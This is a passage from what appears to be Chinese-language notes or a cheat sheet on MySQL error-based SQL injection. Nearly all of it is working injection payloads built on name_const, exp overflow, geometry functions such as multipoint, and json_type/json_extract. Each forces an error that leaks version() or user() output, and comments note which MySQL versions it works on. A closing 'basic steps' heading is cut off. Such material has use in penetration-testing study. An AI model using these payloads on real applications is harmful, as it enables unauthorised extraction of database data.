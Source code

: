 - 其它报错注入

- ```sql
  //name_const,支持mysql5.0不支持5.1
  //name_const(name,value),当用来产生一个结果集合时,name_const()促使该列时使用给定名称
  
  1'and (select * from (select name_const(version(),1),name_const(version(),1))a) --+
  ```

- ```sql
  //整型溢出exp,mysql低于5.5.5
  //exp是以e为底的指数函数,由于数字太大会溢出,该函数会在参数大于709是溢出,产生报错
  
  //只有mysql5.5.29才能正常显示
  1'and exp(~(select*from(select version())a)) --+
  ```

- ```sql
  //几何函数,高版本的mysql无法得到数据,目前只有mysql5.5.29和5.1.60能得到正确输出
  geometrycollection(),multpoint(),polygon(),multipolygon(),linestring(),multilinestring()
  
  1' and
  	(select multipoint(
  		(select * from
  			(select * from
  				(select * from
  					(select version())a
  					)b
  				)c
  			)
  		)
  	) -- qwe
  ```

- ```sql
  //json报错,获取json值的类型,当我们传入的值不属于json格式时则报错
  //json_type(version())
  1'and json_type(version())%23 --+
  
  //json_extract(json_doc,path[,path]) --+
  //从json_doc中读取数据,和path的参数匹配,第一个或第二个参数不是json格式就会报错
  1'and json_extract(user(),'$.a') --+
  1'and json_extract('[1,2,3]',user()) --+
  
  //json_arary_append(json_doc,path,val[,path,val]...),
  //将值附加到json文档中指定数组的末尾并返回结果
  //报错输出原理和 json_extract函数相同
  ```

  

### 基本步骤

- 查看数据库版本
